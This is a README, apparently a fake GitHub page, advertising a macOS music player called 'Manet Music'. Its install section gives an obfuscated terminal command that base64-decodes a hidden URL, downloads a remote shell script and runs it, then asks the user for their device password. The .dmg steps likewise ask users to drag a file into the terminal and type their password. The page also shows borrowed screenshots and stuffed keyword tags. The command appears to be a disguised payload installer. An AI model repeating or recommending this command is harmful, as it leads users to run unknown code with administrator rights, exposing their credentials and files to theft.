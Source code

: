 # 🎶 Manet Music — Elegant Music Player for macOS

**Manet Music** is a beautifully designed music player for macOS that merges elegance, simplicity, and performance. Inspired by the timeless artistry of Édouard Manet, this lightweight music app offers a minimal interface with powerful playback capabilities, making it the perfect companion for focused listening and aesthetic enjoyment on Mac.

Whether you’re enjoying classical compositions, modern playlists, or creating your own audio collection, Manet Music brings harmony to your digital soundscape.

---

## ✅ Download Manet Music for macOS  
[![Download Manet Music](https://img.shields.io/badge/Download-Manet_Music-blueviolet)](https://shuziktobehuman.github.io/huja/ManetMusic)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is Manet Music?

Manet Music is a sleek and modern macOS music player with a visual theme inspired by impressionist painter Édouard Manet. It emphasizes clean design, intuitive controls, and high-fidelity audio playback. Designed with Mac users in mind, it integrates perfectly into the macOS ecosystem, offering an elegant and distraction-free way to experience music.

---

## ✨ Features

- 🎵 Minimalist interface focused on pure listening experience  
- 🎨 Aesthetic inspired by Manet’s art and impressionist tones  
- 📁 Simple playlist creation and management  
- 🎧 High-quality audio playback with support for multiple formats (MP3, FLAC, AAC, WAV)  
- 🖥 Optimized for Apple Silicon and macOS Ventura+  
- 🌙 Light and Dark mode support  
- 🖱 Seamless drag-and-drop music import  
- 🔄 Background playback and macOS media key support  

---

## 💡 Why Use Manet Music?

- 🖌 A refined music player with an art-inspired interface  
- 🎶 Focus on your music without overwhelming features  
- ⚙️ Built natively for macOS with excellent performance  
- 📂 Organize and play local music with ease  
- 🎼 Ideal for classical, instrumental, and curated music collections  

---

[![Download Manet Music](https://img.shields.io/badge/Download-Manet_Music-blueviolet)](https://shuziktobehuman.github.io/huja/ManetMusic)

---

## 🖼 Preview

![Manet Music Screenshot 1](https://tilosoftware.io/_astro/macos-light@2x.4GuNmZyx_ZnGFLi.webp)  
![Manet Music Screenshot 2](https://is1-ssl.mzstatic.com/image/thumb/PurpleSource221/v4/23/94/c9/2394c98b-6dad-3ff8-502e-d3e67b5f2a83/v1.13-1.png/643x0w.jpg)

---

## 📌 Tags

music in the tuileries manet, berthe morisot by manet, the spanish singer manet,  
manet music, edouard manet music in the tuileries, manet goya, manet tuileries,  
music in the tuileries gardens by edouard manet, the spanish singer edouard manet,  
Manet Music mac, Manet Music download, Manet Music download mac
